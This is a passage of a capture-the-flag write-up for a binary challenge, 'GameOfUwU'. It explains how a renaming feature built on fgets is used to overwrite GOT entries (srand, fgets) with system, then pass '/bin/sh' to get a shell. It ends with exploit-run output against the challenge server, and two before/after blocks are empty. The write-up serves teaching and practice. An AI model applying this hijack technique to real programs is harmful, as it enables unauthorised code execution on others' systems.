 The best choice is probably `fgets` because of the below observation
```c
printf("  Please get a new name to %s! What is its new nickname? \n  ", TEAM[index-1]);
fgets(TEAM[index-1], 16, stdin);
```
I choose function according to the ease of overwriting, here we can easily overwrite with a pre-existing `TEAM[index-1]` value. That means if we rename `TEAM[index-1]` into `/bin/sh`, hijacked `fgets` into `system`, we would just get a shell. Renaming is easily, but how do we overwrite `fgets`?

### Overwriting addresses value 
```c
printf("  Please get a new name to %s! What is its new nickname? \n  ", TEAM[index-1]);
fgets(TEAM[index-1], 16, stdin);
```
Again with the above code, it allows us to change the content of a memory address with `fgets` it self. And with the fact that we are able to access GOT entry memory section as well as retriving the addresses by parsing them, we can easily get addresses of GOT entry, rewrite it or the adjacent addresses to `system`. As it allows us to write 16 bytes in total.  

Since we cannot get to `fgets` directly with integer indexing and the 16 bytes per indecies, per jump. Also, because overflow of bytes overwrites the higer addresses. Therefore, we are choosing to start from overwriting `srand`, which is right above (actually below in memory) `fgets`, with some random 8 bytes padding. Then the other 8 bytes of the 16 bytes would be our calculated address of `system`   

Below is before and after overwriting `srand` and `fgets`  
Before:  
```
```
After:
```
```

### Putting `/bin/sh` into `fgets` aka `system`

After we successfully hijacked `fgets` with `system`, it is now time to pass in `/bin/sh`.
The first step ( mentioned above), is to first rename one of the pokemon, here we choose the default one `FirebUwU` and rename it to `/bin/sh`. This step can be done any time before we choose to edit nickname after hijacking `fgets`. Because `fgets` would surely be called during the process of renaming, and we don't want any weird arguments being passed in. Anyway, we get the shell after that!  

```
┌──(kali㉿kali)-[~/Desktop/CTF/GameOfUwU]
└─$ python solve.py         
[+] Starting local process './GameOfUwU_patched': pid 58047
[+] Opening connection to chal.firebird.sh on port 35029: Done
[*] '/home/kali/Desktop/CTF/GameOfUwU/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[*] '/home/kali/Desktop/CTF/GameOfUwU/GameOfUwU_patched'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
0x7fdaafc47760
0x7fdaafc01000
0x7fdaafc51d70
```
